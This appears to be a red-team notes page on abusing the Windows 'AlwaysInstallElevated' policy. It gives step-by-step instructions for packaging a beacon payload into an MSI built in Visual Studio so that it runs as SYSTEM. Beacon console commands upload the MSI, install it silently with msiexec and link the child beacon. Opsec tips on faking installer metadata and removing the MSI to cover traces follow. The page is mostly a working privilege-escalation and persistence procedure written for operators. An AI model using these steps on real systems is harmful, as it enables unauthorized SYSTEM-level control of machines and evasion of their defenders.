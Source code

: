 # Always Install Elevated
This policy allows standard users to install applications requiring higher permissions as the user has. This is equivalent to granting full administrative rights.

Vulnerability can be identified via [[Tools/SharpUp]]

## Exploit
Create a MSI installer containing the payload that will be installed and executed with SYSTEM privileges.

-   Generate a new TCP payload and save it to `C:\Payloads\beacon-tcp.exe`.
-   Open **Visual Studio**, select **Create a new project** and enter **installer**. Select the **Setup Wizard** project and give the project a name, like **InstallBeacon**.
-   Use a random location like `C:\Payloads`, then select **place in the same directory**, and click **Create**.
-   When prompted with the choise to include files click **Add** and select the payload (beacon-tcp.exe) and click **Finish**.
-   Highlight the **InstallBeacon** project and change the **TargetPlatform** based on the target architekture.
-   Right-click the project and select **View > Custom Actions**.
-   Right-click **Install** and select **Add Custom Action**.
-   For direct execution, double-click on **Application Folder**, select your **beacon-tcp.exe** file and click **OK**.
-   If you have selected x64 before make sure to change **Run64Bit** to **True** in the **Custom Action Properties** option.

Now build the project, which should produce an MSI at `C:\Payloads\InstallBeacon\Debug\InstallBeacon.msi`.


#opsec:
- if installed, it will appear as an installed programm.
- clone file metadata like  **Author** or **Manufacturer**.


``````beacon
beacon> cd C:\Temp
beacon> upload C:\Payloads\InstallBeacon\Debug\InstallBeacon.msi
beacon> run msiexec /i InstallBeacon.msi /q /n
beacon> connect localhost 4444
[+] established link to child beacon: 192.168.1.253
``````

#OPSEC remove the MSI afterwards, you can use `msiexec /n /q /uninstall InstallBeacon.msi` for removing the file.

## Tools
########
########


```meta
ttp: T1000
requirements: 
results: admin
description: This registry value enables an user to install applications with access to higher level folders/registry keys
```
